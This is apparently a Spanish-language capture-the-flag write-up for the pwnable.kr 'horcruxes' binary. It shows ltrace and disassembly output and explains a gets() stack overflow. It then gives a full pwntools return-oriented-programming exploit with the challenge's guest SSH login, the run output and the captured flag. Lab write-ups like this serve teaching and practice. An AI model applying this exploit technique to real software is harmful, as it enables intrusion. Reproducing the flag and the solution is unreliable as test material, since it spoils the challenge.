 # horcruxes

![horcruxes](https://github.com/user-attachments/assets/d2be3452-5d56-4ea1-ace5-4c7d59fd5410)

El binario genera 7 numeros aleatorios (los horcruxes):
```
horcruxes@ubuntu:~$ ltrace ./horcruxes
__libc_start_main(0x80413fb, 1, 0xffc6d844, 0 <unfinished ...>
setvbuf(0xf7ebbda0, 0, 2, 0)             = 0
setvbuf(0xf7ebb620, 0, 2, 0)             = 0
alarm(60)                                = 0
puts("Voldemort concealed his splitted"...Voldemort concealed his splitted soul inside 7 horcruxes.
) = 58
puts("Find all horcruxes, and destroy "...Find all horcruxes, and destroy it!

) = 37
open("/dev/urandom", 0, 037761553530)    = 3
read(3, "\243\027tD", 4)                 = 4
close(3)                                 = 0
srand(0x447417a3, 0xffc6d748, 4, 0x80416a4) = 1
rand(0x8042220, 0xfbad008b, 0x447417a3, 3) = 0x57054550
rand(0x8042220, 0xfbad008b, 0x447417a3, 3) = 0x61c60cc8
rand(0x8042220, 0xfbad008b, 0x447417a3, 3) = 0x110043e6
rand(0x8042220, 0xfbad008b, 0x447417a3, 3) = 0xd84e529
rand(0x8042220, 0xfbad008b, 0x447417a3, 3) = 0x39a515df
rand(0x8042220, 0xfbad008b, 0x447417a3, 3) = 0x6e6ab3da
rand(0x8042220, 0xfbad008b, 0x447417a3, 3) = 0x4cf115e5
```

En la funcion `ropme` el primer valor que introducimos se compara con cada horcrux y salta a alguna de las funciones `A`,`B`,`C`,`D`,`E`,`F`,`G` (que imprimen los horcruxes) si conciden, se ve en lineas como:
```
   0x08041555 <+74>:	jne    0x8041561 <ropme+86>
   0x08041557 <+76>:	call   0x804129d <A>
   0x0804155c <+81>:	jmp    0x804168e <ropme+387>
   0x08041561 <+86>:	mov    edx,DWORD PTR [ebp-0x10]
   0x08041564 <+89>:	mov    eax,DWORD PTR [ebx+0x80]
   0x0804156a <+95>:	cmp    edx,eax
   0x0804156c <+97>:	jne    0x8041578 <ropme+109>
   0x0804156e <+99>:	call   0x80412cf <B>
   0x08041573 <+104>:	jmp    0x804168e <ropme+387>
```

Al final si no coincide con ninguno entonces se reservan 0x74 bytes y nos piden introducir cuanta experiencia ganamos (la suma de los horcruxes). Convierte la entrada a un entero con `atoi` y si es correcto entonces abre el archivo `flag` e imprime su contenido:
```
 0x08041600 <+245>:	lea    eax,[ebp-0x74]
   0x08041603 <+248>:	push   eax
   0x08041604 <+249>:	call   0x8041080 <gets@plt>
   0x08041609 <+254>:	add    esp,0x10
   0x0804160c <+257>:	sub    esp,0xc
   0x0804160f <+260>:	lea    eax,[ebp-0x74]
   0x08041612 <+263>:	push   eax
   0x08041613 <+264>:	call   0x8041140 <atoi@plt>
   0x08041618 <+269>:	add    esp,0x10
   0x0804161b <+272>:	mov    edx,DWORD PTR [ebx+0x98]
   0x08041621 <+278>:	cmp    eax,edx
   0x08041623 <+280>:	jne    0x804167c <ropme+369>
   0x08041625 <+282>:	sub    esp,0x8
   0x08041628 <+285>:	push   0x0
   0x0804162a <+287>:	lea    eax,[ebx-0x1e1c]
   0x08041630 <+293>:	push   eax
   0x08041631 <+294>:	call   0x80410f0 <open@plt>
   0x08041636 <+299>:	add    esp,0x10
   0x08041639 <+302>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804163c <+305>:	sub    esp,0x4
   0x0804163f <+308>:	push   0x64
   0x08041641 <+310>:	lea    eax,[ebp-0x74]
   0x08041644 <+313>:	push   eax
   0x08041645 <+314>:	push   DWORD PTR [ebp-0xc]
   0x08041648 <+317>:	call   0x8041060 <read@plt>
   0x0804164d <+322>:	add    esp,0x10
   0x08041650 <+325>:	mov    BYTE PTR [ebp+eax*1-0x74],0x0
   0x08041655 <+330>:	sub    esp,0xc
   0x08041658 <+333>:	lea    eax,[ebp-0x74]
   0x0804165b <+336>:	push   eax
   0x0804165c <+337>:	call   0x80410d0 <puts@plt>
   0x08041661 <+342>:	add    esp,0x10
   0x08041664 <+345>:	sub    esp,0xc
   0x08041667 <+348>:	push   DWORD PTR [ebp-0xc]
   0x0804166a <+351>:	call   0x8041150 <close@plt>
   0x0804166f <+356>:	add    esp,0x10
   0x08041672 <+359>:	sub    esp,0xc
   0x08041675 <+362>:	push   0x0
   0x08041677 <+364>:	call   0x80410e0 <exit@plt>
   0x0804167c <+369>:	sub    esp,0xc
   0x0804167f <+372>:	lea    eax,[ebx-0x1e00]
   0x08041685 <+378>:	push   eax
   0x08041686 <+379>:	call   0x80410d0 <puts@plt>
   0x0804168b <+384>:	add    esp,0x10
   0x0804168e <+387>:	mov    eax,0x0
   0x08041693 <+392>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08041696 <+395>:	leave
   0x08041697 <+396>:	ret
``` 

Por si las dudas, la generacion y suma de los horcruxes se calcula en la funcion `init_ABCDEFG`.

Bueno resulta que la funcion `gets` que toma nuestra entrada es vulnerable, no revisa limites del arreglo y hay un buffer overflow. De paso sabemos que el binario no tiene canary (el buffer overflow pasa desapercibido) y no tiene PIE(las direcciones de memoria no cambian):
```
horcruxes@ubuntu:~$ checksec --file=horcruxes
[!] Could not populate PLT: [Errno 12] Cannot allocate memory
[*] '/home/horcruxes/horcruxes'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8040000)
    Stripped:   No
```

Debemos hacer ROP (Return Oriented Programming) para retornar a cada una de las funciones que imprimen la experiencia de los horcruxes, tomar su salida y sumarla y entonces volver a `ropme` a escribir la suma de la experiencia obtenida:

Se reservan 0x74 bytes asi que el offset es 0x74 + 4 bytes del `ebp` guardado en la funcion.

``` python
from pwn import *

sh =  connection = ssh('horcruxes','pwnable.kr',password='guest',port=2222)
io = sh.process(["nc","0.0.0.0","9032"])

A = 0x0804129d
B = 0x080412cf
C = 0x08041301
D = 0x08041333
E = 0x08041365
F = 0x08041397
G = 0x080413c9
ropme = 0x0804150b
payload = flat (
            cyclic(0x74),
            cyclic(0x4),
            p32(A),
            p32(B),
            p32(C),
            p32(D),
            p32(E),
            p32(F),
            p32(G),
            p32(ropme),
          )

io.sendline(b"1")
io.sendline(payload)

io.recvuntil(b"Voldemort\n")
sum = 0
for _ in range(7):
    exp = int(io.recvline().decode().strip().split("+")[1][:-1])
    sum += exp

io.recv()
io.sendline(b"1")
io.sendline(str(sum))
io.interactive()
```

```
[+] Connecting to pwnable.kr on port 2222: Done
[*] asm@pwnable.kr:
    Distro    Ubuntu 22.04
    OS:       linux
    Arch:     amd64
    Version:  5.15.0
    ASLR:     Enabled
    SHSTK:    Disabled
    IBT:      Disabled
[+] Starting remote process None on pwnable.kr: pid 518538
[!] ASLR is disabled for '/usr/bin/nc.openbsd'!
/home/kalcast/s.py:38: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline(str(sum))
[*] Switching to interactive mode
How many EXP did you earned? : The_M4gic_sp3l1_is_Avada_Ked4vra
```

**Nota**: No sabia que hacia la instruccion `__x86.get_pc_thunk.bx` pero luego me di cuenta que carga la direccion del codigo en el registro `ebx` para acceder a objetos y variables globales por medio de un desplazamiento de ese registro.

**Otra nota**: Recordar que la arquitectura trabajada en este programa es `x86` a veces llamada `i386`, por lo que los parametros a funciones se llaman mediante `pop/push` usando la pila y NO registros. 

`The_M4gic_sp3l1_is_Avada_Ked4vra`
